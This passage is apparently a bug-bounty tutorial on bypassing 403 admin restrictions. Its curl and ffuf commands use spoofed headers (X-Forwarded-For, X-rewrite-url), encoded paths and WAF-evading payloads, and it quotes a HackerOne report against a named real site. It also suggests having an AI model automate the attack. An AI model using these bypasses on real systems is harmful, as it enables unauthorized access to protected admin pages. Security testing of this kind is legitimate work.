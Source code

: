 Use this in Burp Repeater or `curl`:

```bash
curl -X GET https://target.com/admin? -H "X-Forwarded-For: 127.0.0.1"
```

Use ffuf with AI-generated headers:

```bash
ffuf -w ai_headers.txt -u http://target.com/admin -H "FUZZ" -mc 200
```

- **Ask DeepSeek to automate this.

### HackerOne Example Report

This request shows normal behavior `curl -i -s -k -X $'GET' -H $'Host: account.mackeeper.com' $'https://account.mackeeper.com/admin/login'` and returns 403

Here you can see how we can bypass these restrictions `curl -i -s -k -X $'GET' -H $'Host: account.mackeeper.com' -H $'X-rewrite-url: admin/login' $'https://account.mackeeper.com/'` and return login page

Try:

- Modifying `User-Agent`: pretend to be `curl`, `Googlebot`, or `AWS-HealthChecker`
- Reordering headers
- Injecting null bytes (`%00`)
- Appending `#fragment`

#### Mimic internal traffic (e.g., `X-Forwarded-For: 169.254.169.254` for AWS metadata service).

#### Exploit framework-specific weaknesses (e.g., `X-HTTP-Method-Override` in Laravel).

#### Path Normalization Bypass via AI-Generated Payloads

Servers might misprocess encoded paths or alternate URL formats.

**AI’s Role**:

Predict effective path encodings (e.g., `%2e%2e/` instead of `../`) using datasets of WAF bypasses.

#### Manual encoding (e.g., `../` → `%2e%2e%2f`) is predictable. AI identifies **WAF-blind spots** by:

#### Testing multi-layer encoding (e.g., `%252e%252e%252f` for double-encoded `../`).

#### Leveraging rare Unicode characters (e.g., `％００` for null-byte injections).

## Practical Example:

```bash
/admin => /%2561dmin  # Double URL-encoded "a"    
/admin => /%2f%2fadmin  # URL-encoded "//"    
/admin => /;admin  # Path parameter injection  

# Test path variations with curl  
curl --path-as-is http://target.com/secret/%2e%2e%2fadmin
```

